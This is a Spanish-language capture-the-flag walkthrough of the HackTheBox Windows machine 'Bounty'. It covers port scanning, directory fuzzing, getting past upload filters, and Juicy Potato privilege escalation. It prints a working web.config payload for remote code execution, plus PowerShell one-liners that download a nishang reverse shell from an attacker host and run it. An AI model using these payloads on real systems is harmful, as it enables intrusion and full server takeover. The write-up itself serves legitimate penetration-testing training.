

| NOMBRE      | Plataforma | OS     |
| :---        |    :----:   |  ---: |
| BOUNTY      | HACKTHEBOX   | WINDOWS   |

## Enumeración del OS

Realizamos un simple ping, esto nos ayudara a identificar el ttl y esto nos indica el OS al cual nos estamos enfrentado. Esto a veces varia, pero normalmente se tiene que en :
- Linux -> ttl -> 64
- Windows -> ttl -> 128



En este caso se tiene un ttl de 127, esto es debido a que nos conectamos atraves de un nodo intermediario y eso hace que el ttl disminuya en una unidad.

## ESCANEO DE PUERTOS 

- **-p-** : Es el rango de puertos las cuales va escanear.
- **--open** : Solo nos reportará los puertos que tienen status "open".
- **--min-rate** : Indica la tasa minima de paquetes, esto acelerará el escaneo. Esto puede tener muchas deficiencias cuando la condición de la red es muy mala y en ese caso es mejor realizar un **T4** o **T5**. 
- **-vvv** : Con este parametro podemos ver la output mientras va escaneando y asi adelantar un poco mas de trabajo.
- **-n** : Parametro que indica que no deseamos que realiza host discovery, con esto activo puede demorar un poco mas el escaneo.

- **-p80**  : Puertos en espacificos que deseamos escanear.
- **-sC** : Scripts por defecto que se usaran para la enumeración.
- **-sV** :Enumerar las versiones y servicios
- **-sCV** : Otra manera de indicar **-sC** y **-sV** de manera junta.
- **-oN** : Para que nos guarde la información enumerada en formato nmap.

```bash
nmap -p- --min-rate 5000 -Pn -n -vvv 10.10.10.93 -oG allportsScan
```


```bash
nmap -p80 -sCV -vvv -Pn 10.10.10.93 -oN servicesScan
```


## Página web
Nos encontramos que el puerto 80 esta abierto, esto normalmente es "http" así que vamos a hechar un vistaso a la página web. 


### Enumeración del servidor web
Hay muchas maneras de enumerar las tecnologias que se estan ejecutando en un servidor, pero las que yo utilizó normalmente es wappalyzer y whatweb

- Wappalyzer



- whatweb



Para descubrir directorios en el sitio web, realizaremos fuzzing con wfuzz el cual probará distintos directorios en el sitio web.

```bash
wfuzz -c -f directoryFuzz,raw -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 --hh 630 --hc 404 -u http://10.10.10.93/FUZZ
```



Se encuentra dos directorios, pero no tenemos acceso de listar el contenido de estos.

 

Con la herramienta gobuster vamos hacer fuzzing, esto para descubrir archivos que estan en el servido web al cual no se ve.

```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.93/ -x aspx,asp,php,txt -t 60
```



Tenemos un archivo "/transfer.aspx" el cual permitesubir un archivo.
subimos una imagen para ver que ocurre.


Al parecer los archivo que se suben al servidor se almacenan en /uploadedfiles/



Vamos a subir un archivo apsx malicioso para poder conectarnos al servidor.

[revershell.aspx](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)



El archivo no puede ser cargado al servidor, seguramente tiene alguna regla definida a nivel de codigo.



Vamos a realizar una [inyección de caracteres nulos](https://infosecwriteups.com/bypass-server-upload-restrictions-69054c5e1be4) para evadir de alguna manera los filtros, para que así se logre cargar.



Logramos cargar nuestro archivo al servidor, ahora probaremos a entablarnos una consola interactiva del servidor hacia nuestra maquina atacante. Pero vemos que no se puede, ya que nos marca un error.



Probamos a subir varios extenciones de archivos y nos deja subir un web.config, un web.config es como un .htaccess de un servidor apache
- [https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit)

- [https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/](https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/)

Tenemos una manera de ejecutar comandos, si probamos inyectantando el siguiente codigo.
```bash
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```
```bash
<%
Set wShell = CreateObject("WScript.Shell")
Set cmd = wShell.Exec("cmd.exe /c whoami")
output = cmd.StdOut.Readall()
Response.write(output)
%>
```
Vemos que se puede ejecutar comandos a novel de sistema.



Para obtenre una consola interactiva, usaremos nishang.

[https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Una vez descargado, vamos a insertar lo siguiente al final

```bash
Invoke-PowerShellTcp -Reverse -IPAddress <Ip atacante> -Port 443
```
- Archivo web.config

```bash
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Set wShell = CreateObject("WScript.Shell")
Set cmd = wShell.Exec("cmd.exe /c powershell -c iex(new-object net.webclient).downloadstring('http://ip-atacante/nishangPStcp.ps1')")
output = cmd.StdOut.Readall()
Response.write(output)
%>
```
Con ncat nos ponemos a la escucha por el puerto que colocamos en el archivo "nishangPStcp.ps1" 
 y con python un servidor en el puerto 80



## Escalar privilegios - usuario merlin

Ganamos acceso al servidor y somos el usuario merlin



En el escritorio de merlin obtendremos nuestra flag.



Enumeramos el sistema y tenemos una posible via de escalar privilegios



Leyendo el siguiente artículo vemos como explotar esta vulnerabilidad:

- [https://infinitelogins.com/2020/12/09/windows-privilege-escalation-abusing-seimpersonateprivilege-juicy-potato/privesc](https://infinitelogins.com/2020/12/09/windows-privilege-escalation-abusing-seimpersonateprivilege-juicy-potato/privesc)

- Explotar el impersonate privileges en un laboratorio: [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) 


Vamos a descargar todo lo que necesitamos:
- juicy patato : 
- .bat :

shell.bat 

```bash
powershell -c "iex(new-object net.webclient).downloadstring('http://10.10.16.2/nishangPStcp.ps1')"
```
- nishang

Ya tenemos todo, ahora vamos a cargar a la maquina victima.



Una vez subida todo lo necesario, ejecutemos lo siguiente, pero antes debemos de tener un servidor web a nivel de red, esto lo podemos hacer con python3 :
```bash
.\\Jp.exe -t * -p C:\\Users\\merlin\\appdata\\local\\temp\\privesc\\shell.bat -l 9002 
```
****

Ya seriamos administradores wow:

****